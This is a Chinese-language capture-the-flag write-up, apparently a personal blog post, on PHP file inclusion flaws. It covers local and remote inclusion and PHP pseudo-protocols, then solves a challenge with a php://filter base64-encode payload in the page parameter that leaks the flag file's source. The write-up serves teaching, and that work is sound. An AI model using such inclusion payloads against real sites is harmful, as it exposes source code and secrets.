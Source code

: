 ```yaml
---
layout:     post
title:      FileInclude 
subtitle:   
date:       2020-03-15
author:     SGQ
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - FileInclude 
    - Web
---
```


## 简介:

   程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，
而无需再次编写，这中文件调用的过程一般被称为文件包含。

   程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，
但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。





## 题目:

``` html
<body> 

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="http://blue-whale.me/">blue-whale.me</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="./?page=home">Home</a></li>
              <li class="active"><a href="./?page=flag">Flag</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



ha ha? you want flag? flag is here, but don't let you see!

      <footer>
        <p>&copy; Blue-Whale 2017</p>
      </footer>

    </div> <!-- /container -->


  </body>

```

## 考察点：

**1.文件包含的基本原理**

**2.文件包含如何构造payload**


## 知识点：

**原理**
PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。最常见的就属于本地文件包含（Local File Inclusion）漏洞了。

程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

**文件包含漏洞分为：**
1.本地文件包含漏洞
顾名思义，就是在网站服务器本身存在恶意文件，然后利用本地文件包含使用
2.远程文件包含漏洞
远程文件包含就是调用其他网站的恶意文件进行打开


**php常见的几个文件包含函数：**
`include()`,   `include_once()`,  `fopen()`, `require()`,  `require_once()`

**php伪协议的分类**

伪协议是文件包含的基础，理解伪协议的原理才能更好的利用文件包含漏洞。

`php://input`

php://input代表可以访问请求的原始数据，简单来说POST请求的情况下，php://input可以获取到post的数据。

使用条件：`include( )`、`include_once( )`、`file_get_contents( )`

比较特殊的一点，enctype=”multipart/form-data”的时候 php://input 是无效的。

`php://output`

php://output 是一个只写的数据流，允许你以print和echo一样的方式写入到输出缓冲区。

`php://filter`

php://filter是一种元封装器，设计用于数据流打开时的筛选过滤应用，也就是作为一种过滤器，可以使用在数据流产生的地方。

在php文档中，标准的定义是这样的：

类似的过滤器还有`string.rot13`、`string.strip_tags`、`zlib.deflate`和`zlib.inflate`等等，目前只要知道`convert.base64-encode`就可以。

URL 中包含点的常见形式

?file = xxx 或者 ?file = xxx.php



## 解题过程：

**1.** 首先分析页面代码，发现 `<li class="active"><a href="./?page=home">Home</a></li>`
              `<li class="active"><a href="./?page=flag">Flag</a></li>`  ，可能出现文件包含漏洞.




**2.** 然后开始构造payload，分析页面发现，`http://vps1.blue-whale.me:23338/?page=flag` ,这里是靠page参数进行跳转页面，
于是构造payload : `?page=php://filter/read/resource=./flag `  ,此段代码的含义可理解为筛选`page=flag`的页面并读取。但是页面并没有反应，于是我猜想可能是因为过滤了`read`这个关键词（一般会对一些伪协议的关键词进行过滤，如`read`、`resource`等等）。

**3.** 试一下将read这个关键词进行BASE64加密，新的payload：`?page=php://filter/read=convert.base64-encode/resource=./flag`

**4.** 得到一组BASE64加密的字符串
`aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=`

**5.**进行解密，得到flag！
`
ha ha? you want flag? flag is here<?php
// try to read this source code
//$flag = 'flag{really_basic_skill_web_dog_should_know}';
?>, but don't let you see! `


**lag{really_basic_skill_web_dog_should_know}**





[参考链接（一）--文件包含原理](https://blog.csdn.net/qq_42133828/article/details/83927058)

[参考链接（二）--文件包含的技巧](https://www.cnblogs.com/ichunqiu/p/10683379.html)

## 谢谢您的查阅，欢迎来访！
